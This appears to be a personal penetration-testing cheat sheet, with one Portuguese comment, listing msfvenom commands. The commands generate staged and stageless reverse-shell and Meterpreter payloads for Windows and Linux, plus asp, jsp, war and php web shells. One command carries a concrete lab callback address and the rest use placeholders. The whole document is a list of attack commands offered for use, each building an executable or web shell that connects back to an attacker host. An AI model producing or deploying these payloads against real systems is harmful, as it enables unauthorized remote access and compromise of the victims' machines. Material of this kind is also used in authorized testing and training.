 # Msfvenom

Utilizar esta shell para quando não houver python ou outros programas 

`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.89 LPORT=900 -f elf -o msf.bin`

# **Non-Meterpreter Binaries**

Staged Payloads for Windows

| x86 | msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe |
| --- | --- |
| x64 | msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe |

Stageless Payloads for Windows

| x86 | msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe |
| --- | --- |
| x64 | msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe |

Staged Payloads for Linux

| x86 | msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf |
| --- | --- |
| x64 | msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf |

Stageless Payloads for Linux

| x86 | msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf |
| --- | --- |
| x64 | msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf |

---

# **Non-Meterpreter Web Payloads**

| asp | msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp |
| --- | --- |
| jsp | msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp |
| war | msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war |
| php | msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php |

---

# **Meterpreter Binaries**

Staged Payloads for Windows

| x86 | msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe |
| --- | --- |
| x64 | msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe |

Stageless Payloads for Windows

| x86 | msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe |
| --- | --- |
| x64 | msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe |

Staged Payloads for Linux

| x86 | msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf |
| --- | --- |
| x64 | msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf |

Stageless Payloads for Linux

| x86 | msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf |
| --- | --- |
| x64 | msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf |

---

# **Meterpreter Web Payloads**

| asp | msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp |
| --- | --- |
| jsp | msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp |
| war | msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war |
| php | msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php |